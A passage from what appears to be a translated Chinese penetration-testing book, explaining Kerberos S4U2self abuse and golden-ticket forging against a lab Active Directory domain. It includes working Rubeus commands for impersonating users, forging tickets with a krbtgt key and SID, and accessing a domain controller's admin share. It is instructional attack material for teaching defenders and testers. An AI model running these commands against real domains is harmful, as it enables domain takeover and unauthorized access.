 接着，攻击者可以请求服务票证。请注意**/self**标志，以便模拟受保护用户：

```
Rubeus.exe s4u /self /impersonateuser:robert.baratheon /dc:kingslanding.sevenkingdoms.local /altservice:"http/castelrock.sevenkingdoms.local" /ticket:"tgt_from_step_1" /nowrap /ptt
Invoke-Command -ComputerName castelrock.sevenkingdoms.local -Command {whoami;hostname}
```

结果如下面的截图所示：

![图 7.5 – 成功的 S42Uself 滥用](img/B18964_07_05.jpg)

图 7.5 – 成功的 S42Uself 滥用

相较于银票证，**S4U2self**滥用的主要优势在于服务票证具有有效的 PAC，而不是伪造的。现在，让我们讨论一种更为强大的伪造票证类型——**黄金票证**。

### 黄金票证

黄金票证本质上是伪造的 TGT 票证。凭借这样的 TGT 票证，我们可以作为域中的任何用户请求任何服务票证。理解银票证和黄金票证之间差异的一个很好的比喻是：银票证就像签证，你可以进入一个国家（一个服务器）并在其中旅行（请求访问该服务器上的所有服务）；而黄金票证就像护照，你可以申请每个国家的签证（访问该域中任何资源）。

要伪造 TGT，我们需要知道**krbtgt**账户的 NT 哈希，该信息只能通过域管理员或域中的复制权限获取。微软尝试通过针对**CVE-2021-42287**的补丁（**KB5008380**）来阻止黄金票证伪造。该补丁的思路是引入一个新的数据结构，在 PAC 中包含用户的 SID。然而，如果提供了正确的 SID，攻击仍然会成功[2]。Rubeus 中有两个开关，**/oldpac**和**/newpac**，可以根据补丁安装和强制执行状态来伪造票证。

我们将创建一个黄金票证，用于从**castelrock.sevenkingdoms.local**机器访问**kingslanding.sevenkingdoms.local**文件系统，使用低权限用户**jaime.lannister**进行身份验证：

```
Rubeus.exe golden /user:robert.baratheon /domain:sevenkingdoms.local /aes256:2279187d6dfbacdc093cadef2964eb0afa1ef16af87cc638d34d3a4ea 49f1aa0 /sid:S-1-5-21-4243769114-3325725031-2403382846 /ptt
ls \\kingslanding.sevenkingdoms.local\c$
```
